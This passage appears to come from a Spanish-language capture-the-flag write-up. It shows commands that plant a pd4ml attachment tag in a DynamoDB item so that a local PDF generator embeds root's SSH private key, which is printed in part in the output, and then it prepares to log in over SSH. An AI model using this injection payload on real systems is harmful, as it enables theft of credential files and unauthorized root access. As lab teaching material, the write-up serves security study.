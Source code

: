 ```bash
roy@bucket:/var/www/bucket-app/files$ aws --endpoint-url=http://localhost:4566 dynamodb put-item --table-name alerts \
>         --item '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment description=\"attached.txt\" icon=\"PushPin\">file:///root/.ssh/id_rsa</pd4ml:attachment>
"}}'
{
    "ConsumedCapacity": {
        "TableName": "alerts",
        "CapacityUnits": 1.0
    }
}
```

```bash
roy@bucket:/var/www/bucket-app/files$ curl -X POST --data "action=get_alerts" http://localhost:8000/index.php
roy@bucket:/var/www/bucket-app/files$ cat result.pdf 
%PDF-1.4
%
1 0 obj
% [24] 
<<
/Filter /FlateDecode
/Length 397
>>
stream
...
/Length 2602
/Params 5 0 R
>>
stream
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAx6VphKMyxurjldmb6dy1OSn0D9dumFAUCeSoICwhhsq+fadx21SU
bQr/unofKrmgNMAhjmrHCiMapmDw1dcyj4PSPtwo6IvrV0Guyu34Law1Eav9sV1hgzDLm8
9tAB7fh2JN8OB/4dt0sWxHxzWfCmHF5DBWSlxdk+K4H2vJ+eTA2FxT2teLPmJd7G9mvanh
1VtctpCOi6+CMcv1IMvdFtBLbieffTAOF1rSJds4m00MpqqwDiQdgN5ghcOubTXi3cbjz9
uCTBtXO2dcLfHAqhqYSa7eM0x5pwX54Hr9SP0qJp5y0ueraiOdoSJD5SmgBfIfCzUDZAMn
de3YGZ0Q4a86BVgsD2Vl54+9hoLOYMsiV9g4S76+PmBiuwi/Wrxtoyzr3/htJVmCpm+WfO
r4QQZyCFAVo21sLfIqMcPBqlur5FvrWtUUCA0usfx/j40V/l5WAIioIOX0XmX0kll1f6P7
1+d/BXAQNvyt/aOennafgvzsj23w5m4sOTBNOgBlAAAFiC6rIUsuqyFLAAAAB3NzaC1yc2
EAAAGBAMelaYSjMsbq45XZm+nctTkp9A/XbphQFAnkqCAsIYbKvn2ncdtUlG0K/7p6Hyq5
oDTAIY5qxwojGqZg8NXXMo+D0j7cKOiL61dBrsrt+C2sNRGr/bFdYYMwy5vPbQAe34diTf
Dgf+HbdLFsR8c1nwphxeQwVkpcXZPiuB9ryfnkwNhcU9rXiz5iXexvZr2p4dVbXLaQjouv
gjHL9SDL3RbQS24nn30wDhda0iXbOJtNDKaqsA4kHYDeYIXDrm014t3G48/bgkwbVztnXC
...
```

La copiamos, guardamos en un archivo, le damos los permisos necesarios: `chmod 700 keyroot` e intentamos ingresar mediante `SSH`:
